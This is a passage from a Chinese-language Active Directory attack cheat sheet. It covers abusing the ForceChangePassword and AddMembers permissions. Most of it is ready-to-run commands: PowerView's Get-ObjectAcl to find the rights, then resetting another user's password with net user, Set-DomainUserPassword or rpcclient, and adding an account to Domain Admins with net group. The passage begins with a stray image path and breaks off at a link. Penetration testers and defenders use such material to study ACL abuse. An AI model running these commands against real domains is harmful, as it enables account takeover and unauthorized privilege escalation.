 + 搜索条件

  用户OFFENSE\spotless是否对用户`delegate`有User-Force-Change-Password权限

  ```
  Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
  ```

+ 滥用信息
	+ net
	  `net user dfm.a Password123! /domain`
	
	+ PowerView (推荐)
	
	  https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
	
	  DomainUserPassword 
	
	  要与 Set-DomainUserPassword 结合执行此操作，首先创建一个 PSCredential 对象（这些示例来自 PowerView 帮助文档）：
	
	  ```
	  $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	  $Cred = New-Object System.Management.Automation.PSCredential('CONTOSO\\dfm.a', $SecPassword)
	  ```
	
	  然后为要为目标用户设置的密码创建一个安全字符串对象：
	
	  ```
	  $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
	  ```
	
	  最后，使用 Set-DomainUserPassword，如果您尚未以具有密码重置权限的用户身份在进程中运行，则可以选择指定 $Cred
	
	  ```
	  Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred
	  //或者一条命令
	  Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
	  ```

+ linux

  ```
  rpcclient -U KnownUsername 10.10.10.192
  > setuserinfo2 UsernameChange 23 'ComplexP4ssw0rd!'
  ```

## AddMembers

该边缘表明主体有能力将任意主体添加到目标安全组。由于安全组委派，安全组的成员具有与该组相同的权限。

通过将自己添加到组并刷新令牌，您将获得该组拥有的所有相同权限。
+ 滥用信息
	+ net
	`net group "Domain Admins" dfm.a /add /domain`
	+ PowerView (推荐)
	  https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1
